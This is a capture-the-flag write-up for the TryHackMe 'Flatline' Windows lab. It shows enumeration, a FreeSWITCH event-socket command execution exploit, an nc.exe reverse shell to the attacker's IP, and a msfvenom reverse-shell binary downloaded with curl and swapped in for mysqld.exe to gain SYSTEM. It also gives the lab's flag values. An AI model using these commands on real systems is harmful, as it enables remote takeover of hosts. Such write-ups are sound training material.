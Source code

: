 ```yaml
---
title: "Flatline"
Date: 2022-11-04
author: "Divyanshu Sharma"
permalink: /tryhackme/flatline
tags: tryhackme
---
```


# IP
10.10.3.107

## Enumeration
### Nmap
Found two ports running on the machine.
```console
PORT     STATE SERVICE          REASON  VERSION
3389/tcp open  ms-wbt-server    syn-ack Microsoft Terminal Services
|_ssl-date: 2022-10-29T05:11:15+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-10-29T05:11:14+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Issuer: commonName=WIN-EOM4PK0578N
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-10-28T05:05:20
| Not valid after:  2023-04-29T05:05:20
| MD5:   e6ce 91de 1265 caf1 3131 4fb3 7622 2ba2
| SHA-1: 2e90 4381 7139 e719 d81a f97a 0e5d 871e b5ae c355
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQaLFaTx2iRaBKNvil2qeZ0jANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wHhcNMjIxMDI4MDUwNTIwWhcNMjMw
| NDI5MDUwNTIwWjAaMRgwFgYDVQQDEw9XSU4tRU9NNFBLMDU3OE4wggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDWf28IblvG1kVpHcjSuEOpgm8ukuI6D1AO
| sCurJ0+3Mz3EBd5semclzGVpa1t5lePd8mu81/3Xep8amsZVuibcytbdoiPPEHoO
| bCoPsgrXstCEiINgYIywDKe8hhbD/7Vn+NZVzwdt543XLi+LI82isGqdwdy8+gpd
| GEWSG9/C2PFZP/izTitjDPEeMmXGWrTUxppR4kUZZyoLXl6mJV7483lzbyWzNY2L
| tBdRDjssaNS9u0vzHvUdugifXZtSkHigtAFrjI2tYR2Fcue7vA069PgKoJELsmY1
| EJBObaYhAVGe/9ouwTXUT+EDFFwpKnksya3DOQ7RHUBUmJrjnikFAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAsVrgbcWxZnt2oNOFyi/TUkSRY4xlsj4/2fpg6ctRA7Ij0h2U3hg4H9fH
| xllWX3bVMcfDb87JjV/XUquRL1MSY/rOpDCt3TxPW1Z/KgB9CB8AlyUJasYc/pQo
| IgnVZeWIJC1Q6Gjs+JbyE1wGmj8C96Do6bX/3q6t2MHHHUDeNvXJRyuUqX9DqHo1
| cq0VxGnOdq1w11fZ+NFaA4zkXlomz3/DINMIL771DZkhp/3x3x1ZKiPt6b+9orla
| urh5OGhrdN+C3btyi2+f+T0+wIU4S5EqUb7Gc0xrFywCGJ485djPwxUom98K3qMV
| +zqoqWGyZ/XKUIAmpbzw2Oh6HTivNg==
|_-----END CERTIFICATE-----
8021/tcp open  freeswitch-event syn-ack FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
```

On searching exploits for these service found Command execution exploit for `FreeSWITCH`.
```console
❯ searchsploit freeswitch
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)                                                                                             | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                                                                                                | windows/remote/47799.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


## Exploit
### FreeSWITCH ([1.10.1](https://www.exploit-db.com/exploits/47799))
- Downloaded exploit from searchsploit 
```console
❯ searchsploit -m windows/remote/47799.py
  Exploit: FreeSWITCH 1.10.1 - Command Execution
      URL: https://www.exploit-db.com/exploits/47799
     Path: /usr/share/exploitdb/exploits/windows/remote/47799.txt
File Type: Python script, ASCII text executable
Copied to: /home/divu050704/tryhackme-notes/flatline/47799.txt
```
- On reading code found out that we need to provide to arguments to the exploit.
1. Target
2. Command
- Ran exploit for the first time with `whoami` command
```console
❯ python3 exploit.py 10.10.210.187 whoami
Authenticated
Content-Type: api/response
Content-Length: 25
win-eom4pk0578n\nekrotic
```
- Uploaded a static `nc.exe` binary to the system.
- Started a reverse shell with `nc.exe`.
```console
❯ python3 exploit.py 10.10.210.187 "nc.exe 10.17.0.215 4444 -e cmd.exe"
Authenticated
```
- Got a reverse shell.
```console
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.210.187] 49867
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Program Files\FreeSWITCH>
```
- Found `user.txt`.
```console
C:\Users\Nekrotic\Desktop>
type user.txt
type user.txt
THM{64bca0843d535fa73eecdc59d27cbe26}
```

## Privilege Escalation
- Followed this [exploit](https://www.exploit-db.com/exploits/50448)
- Started a netcat listener.
```console
❯ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
```
- Created a msfvenom payload
```console
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.17.0.215 LPORT=4242 -f exe  > mysqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
- Uploaded to `C:\projects\openclinic\mariadb\bin`.
```console
C:\projects\openclinic\mariadb\bin> curl http://10.17.0.215/mysqld_evil.exe -o mysqld_evil.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 73802  100 73802    0     0  73802      0  0:00:01  0:00:01 --:--:-- 41814
```
- Renamed `mysqld.exe` as `mysqld.bak` and `mysqld_evil.exe` as `mysqld.exe`.
```console
C:\projects\openclinic\mariadb\bin> rename mysqld.exe mysqld.bak
C:\projects\openclinic\mariadb\bin> rename mysqld_evil.exe mysqld.exe
```
- Restarted the system with
```console
C:\projects\openclinic\mariadb\bin> shutdown /r /t 1
```
- Got a reverse shell.
```console
❯ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.4.10] 49670
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
whoami
whoami
nt authority\system
C:\Windows\system32> 
```
- Found `root.txt`
```console
C:\Users\Nekrotic\Desktop> type root.txt
THM{8c8bc5558f0f3f8060d00ca231a9fb5e} 
```

